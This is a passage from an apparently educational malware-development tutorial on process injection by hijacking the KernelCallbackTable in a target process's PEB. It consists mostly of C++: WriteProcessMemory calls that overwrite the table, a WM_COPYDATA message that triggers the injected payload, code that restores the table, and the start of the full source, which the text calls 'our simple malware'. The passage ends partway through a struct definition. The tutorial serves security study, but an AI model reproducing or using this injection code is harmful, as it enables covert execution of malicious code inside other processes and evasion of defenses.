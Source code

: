 Update the `PEB`:   

```cpp
WriteProcessMemory(ph, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &tb, sizeof(ULONG_PTR), NULL);
```

Trigger execution of payload:    

```cpp
cds.dwData = 1;
cds.cbData = lstrlen((LPCSTR)msg) * 2;
cds.lpData = msg;

SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

Finally, restore original `KernelCallbackTable`:    
```cpp
WriteProcessMemory(ph, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);
SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

Here, to restore the original code and check if it restores normally, we called `SendMessage()` again to verify that the code is not running.    

So, full C++ code of our simple malware is:   

```cpp
/*
 * hack.cpp - process injection via KernelCallbackTable. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/01/24/malware-injection-15.html
*/
#include <./ntddk.h>
#include <cstdio>
#include <cstddef>

#pragma comment(lib, "ntdll");

typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
  ULONG_PTR __fnINLPMDICREATESTRUCT;
  ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
  ULONG_PTR __fnINLPWINDOWPOS;
  ULONG_PTR __fnINOUTLPPOINT5;
  ULONG_PTR __fnINOUTLPSCROLLINFO;
  ULONG_PTR __fnINOUTLPRECT;
  ULONG_PTR __fnINOUTNCCALCSIZE;
  ULONG_PTR __fnINOUTLPPOINT5_;
  ULONG_PTR __fnINPAINTCLIPBRD;
  ULONG_PTR __fnINSIZECLIPBRD;
  ULONG_PTR __fnINDESTROYCLIPBRD;
```